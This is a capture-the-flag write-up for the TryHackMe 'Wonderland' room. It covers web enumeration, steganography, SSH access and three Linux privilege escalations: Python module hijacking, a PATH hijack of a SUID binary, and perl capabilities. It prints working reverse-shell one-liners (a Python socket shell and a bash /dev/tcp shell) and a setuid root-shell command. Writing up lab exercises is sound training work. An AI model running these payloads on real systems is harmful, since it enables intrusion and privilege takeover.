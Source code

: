 ```yaml
---
title: CTF tryhackme wonderland
categories: [CTF, THM, Medium]
tags: [http, ssh, steganography, linux_privesc, reverse_engineering]
date: 2024-03-06 08:00 +0700
---
```


In this room, we'll see how to avoid rabbit holes

[https://tryhackme.com/r/room/wonderland](https://tryhackme.com/r/room/wonderland)

## nmap
- after nmap scan, port 22 and 80 are open

## feroxbuster
- `feroxbuster -u http://$IPTA:80 -t 30 -w /usr/share/dirb/wordlists/common.txt -x txt,html,sql,csv,png,jpg,jpeg,php,js,md,sh,py,css,cgi,xml,aspx,zip,tar,tar.gz,bak dir -o "ferox_$IPTA"_common_all.txt` 
![](/assets/img/img_thm_ctf_wonderland_7.png)

## manual web enumeration / steganography
![](/assets/img/img_thm_ctf_wonderland_6.png)
- `wget http://10.10.104.129/img/white_rabbit_1.jpg; ./stegoBF.sh white_rabbit_1.jpg`
	- or `stegseek white_rabbit_1.jpg -q -c`
- `cat *.out*`
- we can extract several strings in them, all saying "follow the r a b b i t"
![](/assets/img/img_thm_ctf_wonderland_5.png)
- feroxbuster got /r, with the message keep going on the page
![](/assets/img/img_thm_ctf_wonderland_8.png)
- given the message in the image and on the web page, we need to continue the letters until r/a/b/b/i/t 
- and indeed in the source code of the page, we get the SSH credentials of alice 
![](/assets/img/img_thm_ctf_wonderland_9.png)
- `ssh alice@$IPTA`

# linux privesc
## python script with import -> rabbit
- `sudo -l; head /home/alice/walrus_and_the_carpenter.py` we can execute a python script as rabbit, and this script import the 'random' module. We can create our own module file, which will be loaded in priority
![](/assets/img/img_thm_ctf_wonderland_10.png)
- `echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.64.57",56766));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > random.py` let's write a reverse shell code in the random.py file
- US2: `nc -lvnp 56766`
- `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
![](/assets/img/img_thm_ctf_wonderland_11.png)
- we have a rabbit shell, let's stabilize it with python

## reverse engineering -> hatter
- `file teaParty` we have a binary file, let's download it to analyse it
- TA:`python3 -m http.server`
- US:`wget $IPTA:8000/teaParty`
- `ltrace ./teaParty` the script will allow us to get a hatter shell
![](/assets/img/img_thm_ctf_wonderland_2.png)
- first I thought of a buffer overflow, but reverse engineering it with ghidra, we can see that the Segmentation fault message is hardcoded. What we see here is that date binary is called with a relative path! And since it's a SUID script, we can modify our path to execute our own date binary, as hatter user
![](/assets/img/img_thm_ctf_wonderland_3.png)
- `echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.11.64.57/56767 0>&1"' > date; chmod +x date` this one!
- US3:`nc -lvnp 56767`
- `PATH=.:$PATH ./teaParty`
![](/assets/img/img_thm_ctf_wonderland_12.png)
- notice how the script is stopped when the date binary start our reverse shell

## perl with extra capabilities -> root
- stabilize the shell with bash this time
- `cat /home/hatter/password.txt`
- `su hatter` we needed this password, otherwise we're not fully logged as hatter since we used a SUID script
- `getcap -r / 2>/dev/null` search for files that have capabilities (or use linpeas)
- `perl -v` https://gtfobins.github.io/gtfobins/perl/#capabilities we can execute perl, it has extra capabilities set, we can use it to get a root shell
- `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash";'` 
- `/tmp/rootbash -p`
- `find / \( -name "user.txt" -o -name "root.txt" \) 2>/dev/null | while read -r flagfile; do echo -e "\n$flagfile"; cat $flagfile; done`
![](/assets/img/img_thm_ctf_wonderland_13.png)